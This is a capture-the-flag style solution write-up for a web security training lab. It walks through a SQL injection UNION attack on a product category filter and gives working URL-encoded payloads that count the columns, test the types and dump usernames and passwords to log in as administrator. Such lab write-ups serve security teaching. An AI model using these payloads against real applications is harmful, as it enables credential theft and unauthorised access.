

# Lab: SQL injection UNION attack, retrieving data from other tables
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Solution
Now we have to combine the learned lessons from the previous labs. First we need to determine the number of columns again. The following query shows that there are two columns:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null%20--%20
```

We knwo that we are looking for the columns username and password. Therefore both columns probably also use the strings data type. But let's evaluate this:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20%27a%27,%27a%27%20--%20
```

At last we can build the injection to query the login information:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20username,password%20from%20users%20--%20
```

This will create some kind of the following SQL query:
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT username,password FROM users -- 
```

In the output of the website the users with passwords show up:


To login as the administrator we have to click on 'My account' and enter the found credentials. After that the lab is solved.
